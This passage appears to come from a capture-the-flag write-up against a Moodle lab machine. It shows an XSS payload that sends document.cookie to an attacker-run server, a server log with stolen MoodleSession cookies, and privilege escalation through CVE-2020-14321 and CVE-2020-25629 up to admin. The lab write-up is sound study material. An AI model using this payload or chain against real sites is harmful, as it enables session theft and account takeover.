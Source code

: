 ```jsx
"><script> new Image().src = "http://10.10.14.24/log.php?q="+document.cookie;</script>
```

Obtained teacher cookie and replaced the current one in order to impersonate him:

```python
┌──(kali㉿kali)-[/opt/enum]
└─$ sudo python3 -m http.server 80
[sudo] password for kali:
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.14.24 - - [10/May/2021 17:54:29] code 404, message File not found
10.10.14.24 - - [10/May/2021 17:54:29] "GET /log.php?q=MoodleSession=btd4thk6pomprao99q97bp850l HTTP/1.1" 404 -
10.10.10.234 - - [10/May/2021 17:54:43] code 404, message File not found
10.10.10.234 - - [10/May/2021 17:54:43] "GET /log.php?q=MoodleSession=bpdmaqp357m2126eligi131chh HTTP/1.1" 404 -
```

![Pasted image 20210510235931.png](../../zzz_res/attachments/Pasted_image_20210510235931.png)

## Moodle Privilege Escalation to Admin (CVE-2020-14321)

Course enrolments allowed privilege escalation from teacher role into manager role to RCE:

[https://github.com/HoangKien1020/CVE-2020-14321](https://github.com/HoangKien1020/CVE-2020-14321)

[CVE-2020-14321](https://player.vimeo.com/video/441698193?h=93f9bf0f35)

Escalated to Manager:

![Pasted image 20210511172323.png](../../zzz_res/attachments/Pasted_image_20210511172323.png)

![Pasted image 20210511172501.png](../../zzz_res/attachments/Pasted_image_20210511172501.png)

![Pasted image 20210511174537.png](../../zzz_res/attachments/Pasted_image_20210511174537.png)

Added Lianne to the course:

![Pasted image 20210511175352.png](../../zzz_res/attachments/Pasted_image_20210511175352.png)

## CVE-2020-25629

Affected versions of this package are vulnerable to Privilege Escalation. Users with "Log in as" capability in a course context (typically, course managers) may gain access to some site administration capabilities by "logging in as" a System manager.

![Pasted image 20210511175915.png](../../zzz_res/attachments/Pasted_image_20210511175915.png)

![Pasted image 20210511180056.png](../../zzz_res/attachments/Pasted_image_20210511180056.png)

Accessed administration panel and enabled all the privileges:

![Pasted image 20210511180219.png](../../zzz_res/attachments/Pasted_image_20210511180219.png)
